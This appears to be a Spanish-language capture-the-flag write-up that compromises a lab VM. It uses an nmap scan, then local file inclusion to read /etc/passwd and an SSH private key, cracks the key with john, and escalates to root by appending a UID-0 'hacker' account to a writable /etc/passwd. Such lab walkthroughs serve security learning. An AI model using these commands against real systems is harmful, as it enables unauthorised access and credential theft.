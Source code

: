 ## Reconocimiento
Procedimiento rutinario con nmap.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.108 > scan
```

![](_anexos_/Screenshot%20from%202023-12-23%2021-38-52.png)
- SSH en el puerto 22. En su versión 7.9 que no tiene alguna vulnerabilidad grave.
- Un pagina montada con apache en el puerto 80.
- Se realizaron pruebas de fuzzing con `gobuster` pero no se encontro nada relevante

Accedemos a la pagina en cuestión
![](_anexos_/Screenshot%20from%202023-12-23%2021-41-28.png)
Si accedemos al `modo inspeccionar` y filtramos por `php` o `?`. Podemos ver que tenemos una url interesante.
![](_anexos_/Screenshot%20from%202023-12-23%2021-45-59.png)

## Local File Inclusion (LFI)
Si cambiamos `Doctors.html` por `/etc/passwd` podemos ver que nos lista el fichero. 
![](_anexos_/Screenshot%20from%202023-12-23%2021-50-04.png)
- Tenemos tres usuarios al parecer
	- root
	- admin
	- www-data

Buscamos el `id_rsa` del usuario `admin`
![](_anexos_/Screenshot%20from%202023-12-23%2021-51-56.png)
Usamos [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)para convertir el `id_rsa` en un hash que podemos intentar crackear con [john](https://github.com/openwall/john).
``` bash
./ssh2john.ph id_rsa > id_rsa.txt

# ejecutamos john
john id_rsa.txt --wordlist=/usr/share/dict/rockyou.txt
```
![](_anexos_/Screenshot%20from%202023-12-23%2023-57-33.png)
Nos conectamos por ssh con el usuario `admin`, haciendo uso del `id_rsa` y la contraseña `unicorn`.
``` bash
ssh -i id_rsa admin@192.168.0.108
```
![](_anexos_/Screenshot%20from%202023-12-24%2000-01-57.png)

## Privsec
Algunas consideraciones al tratar de buscar alguna vulnerabilidad...
- No tenemos _sudo_ instalado, por ende no podemos usar `sudo -l`
- Si bien se ejecuta un versión 4.19 del kernel que tiene algunas vulnerabilidades. No reunimos con los requisitos necesarios para explotarlos.
- A nivel de SUID, ejecutando `find / -perm -4000 2>/dev/null` no encontramos algun ejecutable que nos permita realizar privesc. 

El paso necesario para poder escalar privilegios es la de ver en que archivos tenemos permisos de escritura, en este caso estamos buscando en todos los directorios excepto `var, proc, sys o home` directorios.

``` bash
$ find / -writable -type f 2>/dev/null | grep -viE "var|proc|sys|home"
/etc/passwd
```

Como podemos ver en este [artículo](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) de HackTricks, podemos abusar del permiso de escritura sobre el archivo que esta en `/etc/passwd`.
``` bash
openssl passwd -1 -salt hacker hacker

# Otras opciones disponibles
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

``` bash 
# Despues agregamos el usuario hacker junto con la contraseñá generada en /etc/passwd
...
hacker:<GENERATED_PASSWORD_HERE>:0:0:Hacker:/root:/bin/bash
...
```
Ingresamos como root a traves del usuario `hacker` con su contraseña `hacker`
``` bash
su hacker
```
![](_anexos_/Screenshot%20from%202023-12-24%2001-43-10.png)
Eso es todo.
